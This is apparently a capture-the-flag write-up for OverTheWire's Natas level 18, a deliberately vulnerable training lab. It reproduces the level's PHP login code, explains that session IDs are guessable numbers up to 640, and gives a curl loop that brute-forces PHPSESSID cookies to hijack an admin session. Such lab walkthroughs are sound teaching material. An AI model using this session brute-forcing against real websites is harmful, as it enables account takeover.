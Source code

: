# Natas 18-> 19

```
http://natas18.natas.labs.overthewire.org
```

```
Username: natas18
```

This time we have a login screen with source code.


```php
$maxid = 640; // 640 should be enough for everyone

function isValidAdminLogin() { /* {{{ */
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }

    return 0;
}
/* }}} */
function isValidID($id) { /* {{{ */
    return is_numeric($id);
}
/* }}} */
function createID($user) { /* {{{ */
    global $maxid;
    return rand(1, $maxid);
}
/* }}} */
function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function my_session_start() { /* {{{ */
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }

    return false;
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas19\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
/* }}} */

$showform = true;
if(my_session_start()) {
    print_credentials();
    $showform = false;
} else {
    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
    session_id(createID($_REQUEST["username"]));
    session_start();
    $_SESSION["admin"] = isValidAdminLogin();
    debug("New session started");
    $showform = false;
    print_credentials();
    }
} 

if($showform) {
?>

<p>
Please login with your admin account to retrieve credentials for natas19.
</p>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<? }
```


Again, it uses `$_REQUEST`.  
Anyway, if we enter any value for both user and password, it says:

```
 You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.
```

Let's use `curl`.  

```bash
$ curl --user natas18:${NATAS18_PASSWD} --head "http://natas18.natas.labs.overthewire.org/index.php?username=natas19&password=hehe"

HTTP/1.1 200 OK
Date: Thu, 06 Oct 2016 03:13:26 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.20
Set-Cookie: PHPSESSID=312; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Type: text/html
```

So basically, when calling `session_id(createID($_REQUEST["username"]));`. The username is irrelevant since `createID` returns a `rand` value from 1 to 640 (`$maxid`) and create a `PHPSESSID`. Which as we can see, we can set it manually :-)  

Let's keep with `curl`.

```bash
for i in `seq 1 640`;
do
    curl \
        -s --user natas18:${NATAS18_PASSWD} \
        --cookie "PHPSESSID=$i" \
    "http://natas18.natas.labs.overthewire.org/index.php?username=a&password=a"|lynx -stdin -dump;
done

```

* php
* http://php.net/manual/en/function.session-id.php
* http://php.net/manual/en/function.session-start.php
* http://php.net/manual/en/reserved.variables.session.php
* curl
* lynx
* seq
